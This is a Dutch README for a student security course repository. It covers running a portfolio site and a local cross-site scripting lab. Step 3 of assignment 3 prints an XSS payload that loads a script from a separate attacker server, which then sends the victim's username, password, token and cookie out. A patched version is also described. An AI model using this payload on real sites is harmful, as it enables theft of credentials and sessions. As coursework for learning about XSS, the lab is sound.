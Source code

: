 De opdracht folders bevatten de uitwerkingen van de opdrachten, met daarbij diagrammen en toelichtingen.

# Portfolio

De diagrammen zijn samen met de toelichtingen verwerkt in het portfolio. Deze kan bekeken worden door de commando's `npm install` en `ng serve` uit te voeren in de portfolio directory. Het portfolio wordt vervolgens weergegeven op http://localhost:4200/.

Ook is het mogelijk het portfolio te bekijken door het volgende bestand te openen in de browser:
[portfolio/dist/security2-portfolio/index.html](portfolio/dist/security2-portfolio/index.html)

# Opdracht 3

Om een cross site scripting aanval uit te voeren moeten er twee node servers gestart worden. Hiervoor moet het commando `npm install` uitgevoerd worden in de "assignment3" directory, gevolgd door het commando `node index.js` in de onderliggende "server" directory en `node attacker.js` in de "attacker" directory.

Zodra de servers aanstaan kan er een xss aanval uitgevoerd worden door de volgende stappen te doorlopen:

1. Open http://localhost:3000/ in de browser.
2. Log in als "user1" met als wachtwoord "password1".
3. Verstuur het volgende bericht: `<img src=/ onerror='with(top)body.appendChild (createElement("script")).src="http://localhost:4000/credentials.js"'>`
4. De volgende keer dat er wordt ingelogd zal na 5 seconden de gebruikte gebruikersnaam, wachtwoord, authenticatie token en cookie doorgestuurd worden naar de server van de attacker. Deze gegevens worden weergegeven in de terminal waar de attacker server gestart is.

In de "patched" directory is een versie van de server beschikbaar die niet langer vatbaar is voor deze aanval, door gebruik te maken van input sanitization, zowel op de server als in de browser.

# Opdracht 4

De directory voor opdracht 4 bevat een batch file genaamd "test.bat", deze kan uitgevoerd worden om de TxHandler te testen.
